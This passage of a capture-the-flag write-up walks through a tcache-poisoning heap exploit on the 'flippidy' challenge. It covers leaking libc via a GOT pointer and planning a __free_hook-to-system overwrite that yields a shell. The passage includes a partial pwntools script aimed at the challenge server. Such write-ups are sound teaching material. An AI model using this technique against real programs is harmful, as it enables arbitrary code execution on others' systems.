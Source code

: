 Now, we can overwrite `[0x404020]` to a GOT entry to leak libc addresses. However, we must overwrite more, as the tcache is currently too messed up to do anything later.

After our first malloc, we are able to write 0x2f bytes to `0x404020`, and the next chunk in the freelist is `0x404040`. We can thus overwrite the data at `0x404040` to an address we will later be able to control (within 0x30 bytes of `0x404040`, like `0x404050`, instead of just pointing to `0x654d202d2d2d2d2d`.

Take care to overwrite the rest of the 3 pointers at `0x404020` with valid string pointers because puts will also try to print those when the menu is printed.

Freelist after our write: `HEAD -> 0x404040 -> 0x404050`

After our write, the menu is printed again, along with a libc address. Now, we have an arbitrary write (we can control what is at `0x404050` when we allocate a 0x30 chunk at `0x404040`).

After our final allocation, we will be able to write the address of `__free_hook` to the fwd of the chunk of `0x404050`, which is still on the freelist.

We can then just allocate another chunk, which will point to `__free_hook`, and write the address of `system` to it.

Finally, we allocate one more chunk at index 0, write `"/bin/sh"` to it, and flip to free it, launching our shell.

Script:
```python
from pwn import *

e = ELF("./flippidy")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = e
context.terminal = ["konsole", "-e"]


"""
p = process([e.path])
context.log_level="debug"
gdb.attach(p, "c")
"""

p = remote("dicec.tf", 31904)

def add(idx, data):
    p.sendlineafter(":", "1")
    p.sendlineafter(":", str(idx))
    p.sendlineafter(":", data)


def flip():
    p.sendlineafter(":", "2")
    
    
p.sendlineafter("be:", "7")


add(3, p64(0x00404020))

flip()


add(1, p64(e.got["setbuf"]) + p64(0x404158) + p64(0x004040ac) + p64(0x004040de) + p64(0x404050))

p.recvline()
p.recvline()
```